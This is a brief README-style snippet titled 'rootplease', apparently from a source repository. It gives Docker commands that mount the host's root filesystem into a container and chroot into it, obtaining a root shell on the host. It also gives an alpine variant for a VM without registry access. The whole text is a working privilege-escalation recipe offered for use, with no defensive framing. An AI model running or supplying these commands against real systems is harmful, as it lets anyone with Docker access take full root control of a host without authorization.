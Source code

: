 # rootplease
```text-plain
docker pull chrisfosterelli/rootplease
docker run -v /:/hostOS -it --rm chrisfosterelli/rootplease
```

For alpine:

```text-plain
docker save -o alpine.tar alpine
#upload alpine.tar to vm
docker load < alpine.tar  
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```